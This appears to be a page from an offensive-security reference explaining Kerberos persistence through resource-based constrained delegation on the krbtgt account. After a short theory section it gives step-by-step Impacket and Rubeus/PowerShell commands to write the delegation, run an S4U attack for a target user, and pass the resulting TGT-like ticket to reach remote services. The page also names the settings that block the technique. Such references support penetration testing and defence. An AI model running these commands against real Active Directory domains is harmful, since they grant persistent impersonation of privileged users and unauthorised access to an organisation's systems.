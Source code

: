 ## Theory
The idea behind this technique is to configure resource-based constrained delegation on the krbtgt account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the krbtgt account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN (or create one, or do SPN-less RBCD).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user.

Since a TGT is just a Service Ticket for the KRBTGT service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

1. Configure RBCD delegation on the krbtgt account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work (or, see SPN-less RBCD). This controlled account will be called "ControlledAccountWithSPN"

2. Perform a full S4U attack to obtain a Service Ticket for the krbtgt service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the KRBTGT service, which basically means the ticket can be used as a TGT for the TargetedAccount.

3. Pass-the-ticket to use the Service-Ticket-that-is-in-fact-a-TGT, act as the target -privileged- user, and authenticate to remote resources.

## Exploit
=== "UNIX-like"
    Every step of this attack can be achieved using one of the following scripts from Impacket (Python), such as rbcd.py and getST.py.
    ```bash
    # Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
    rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

    # Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
    getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

    # Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
    KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
    ```
=== "Windows"
    Every step of this attack can be achieved using Rubeus and the Set-ADUser command.
    ```bash
    # Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
    Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

    # Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
    Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash

    # Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
    Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt
    ```